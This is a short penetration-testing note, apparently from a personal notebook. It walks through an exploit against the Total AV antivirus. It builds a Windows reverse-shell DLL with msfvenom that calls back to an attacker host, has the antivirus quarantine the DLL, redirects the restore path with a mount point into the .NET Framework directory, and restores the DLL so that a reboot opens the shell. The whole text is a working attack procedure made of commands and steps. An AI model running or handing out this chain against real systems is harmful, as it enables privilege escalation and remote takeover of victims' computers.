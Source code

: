 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/googleprojectzero/symboliclink-testing-tools/releases/tag/v1.0

Download Release.7z

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll > version.dll
```

Transfer version.dll and CreateMountPoint.exe to victim.

Make a folder in Windows, called mount.  

```command prompt - windows
cd /
```

```command prompt - windows
mkdir mount
```

Copy the version.dll file into it.

In Total AV, go to Antivirus > Quick Scan > Custom Scan > Add Folder > mount > Start Custom Scan.

Once version.dll is found, click "resolve", leave action as "Quarantine".

Click the "Remove Threat" button.

Go to Quarantine and confirm version.dll is there.

In PowerShell, navigate to Downloads folder.

```powershell - windows
.\CreateMountPoint.exe "C:\mount" "C:\Windows\Microsoft.NET\Framework\v4.0.30319\"
```

In Total AV, click the check box for version.dll and hit the Restore button.

![[rlwrap]]

Restart the Windows target to trigger the reverse shell.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
